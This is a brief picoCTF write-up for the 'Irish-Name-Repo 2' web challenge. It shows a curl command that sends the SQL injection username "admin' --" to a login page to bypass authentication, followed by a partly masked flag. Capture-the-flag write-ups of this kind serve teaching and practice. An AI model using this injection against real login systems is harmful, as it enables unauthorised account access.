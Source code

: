 # picoCTF – Irish-Name-Repo 2 

* **Category:** Web
* **Points:** 350

## Challenge

> Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login!  

## Solution

Similar to **Irish-Name-Repo 1** make a request to login page using crafterd SQL query.

Using *curl* make a request with username field containing text **admin** followed by **--**. The two hypens will comment out rest of the query which will get executed in the SQL server.
```
curl "<URL>/login.php" -d "username=admin' --&password=&debug=1"
```


```
picoCTF{m0R3_SQL_plz_xxxx}
```
